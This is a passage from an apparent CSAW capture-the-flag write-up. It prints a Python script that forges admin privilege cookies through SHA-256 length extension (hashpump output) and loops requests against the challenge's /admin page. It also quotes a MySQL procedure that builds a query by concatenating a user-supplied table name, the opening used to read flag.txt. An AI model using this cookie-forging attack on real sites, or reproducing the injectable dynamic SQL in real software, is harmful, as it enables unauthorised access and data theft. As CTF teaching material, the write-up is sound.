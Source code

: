 Solution script:
```python
import requests
import urllib
import time
import hashlib

## This file is piped output from hashpump
f = open("extensions.txt")
r = f.read()
lines = r.strip().split("\n")
for i in range(0, len(lines)/2):
    priv_hash = lines[2 * i + 1].split(" ")[2].strip()
    new_data = lines[2 * i + 1].split(" ")[3].strip().decode('string-escape')
    shaSigned = hashlib.sha256(priv_hash + new_data + "an_bad_secret_value_nhcq497y8").hexdigest()
    shaSigned += (priv_hash + new_data).encode('hex')
    time.sleep(0.1)
    url = "http://web.chal.csaw.io:3306/admin"
    print("Running number: " + lines[2*i].strip())
    headers = {"Cookie":"__cfduid=da3059a1c48c186f13d674aa4f307b2c81536954847; admin=3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431; email=260d3e9300ef347d2e0da1fe3f3cf9c9e203d997cec69915f39c33da1f680f667a6170313233; privs=" + shaSigned + ";"}

    response = requests.get(url, headers=headers)
    if(len(response.content) != 287):
        print "INTERESTING RESPONSE"
        print "Signed privs: " + shaSigned
        print response.text
        exit(0)
```

We can finally get to the admin panel!  Setting the proper cookies in the browser brings us here:

![flag!][flag]


During the competition the flag was already up, and afterwards the database query we were supposed to use doesn't seem to be functioning anymore.  However, looking at the dump html table function all that needed to be done was to type 'flag.txt' and add the panel:

dump_table_html:
```
BEGIN
    DECLARE db_name, tbl_name, cols TEXT;

    IF INSTR(i_table_name, '.') THEN
        SET db_name = SUBSTRING_INDEX(i_table_name, '.', 1);
        SET tbl_name = SUBSTR(i_table_name FROM INSTR(i_table_name, '.') + 1);
    ELSE
        SET db_name = DATABASE();
        SET tbl_name = i_table_name;
    END IF;

    SET cols = NULL;
    SET cols = (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE `table_schema` = `db_name` AND `table_name` = `tbl_name`);

    IF ISNULL(cols) THEN
        SET o_html = 'No such table';
    ELSE
        SET @dump_query = (SELECT CONCAT('SELECT CONCAT('<tr>', GROUP_CONCAT(CONCAT('<td>', CONCAT_WS('</td><td>', ', cols, '), '</td>') SEPARATOR '</tr><tr>'), '</tr>') INTO @dump_result FROM ', `i_table_name`, ';'));
        PREPARE prepped_query FROM @dump_query;
        EXECUTE prepped_query;

```
